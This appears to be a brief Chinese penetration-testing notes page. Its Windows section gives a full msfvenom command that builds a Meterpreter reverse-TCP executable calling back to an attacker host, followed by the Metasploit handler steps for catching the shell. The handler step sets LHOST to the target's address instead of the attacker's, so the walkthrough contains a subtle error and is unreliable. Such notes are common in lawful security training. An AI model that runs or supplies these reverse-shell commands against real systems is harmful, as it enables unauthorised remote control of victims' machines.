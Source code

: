 # 渗透测试

## Nmap

### 参考资料

不老的神器：安全扫描器Nmap渗透使用指南：

https://www.freebuf.com/news/141607.html

## Windows 渗透

利用msf套件

反弹shell

生成

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<攻击机地址> LPORT=<攻击机端口> -f exe > shell.exe
```

上传到靶机后

```
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST <靶机地址>
set LPORT <攻击机端口>
exploit
```

拿到meterpreter shell以后

可以``shell``进入cmd环境



### 参考资料
https://guide.offsecnewbie.com/privilege-escalation/windows-pe


## Linux 渗透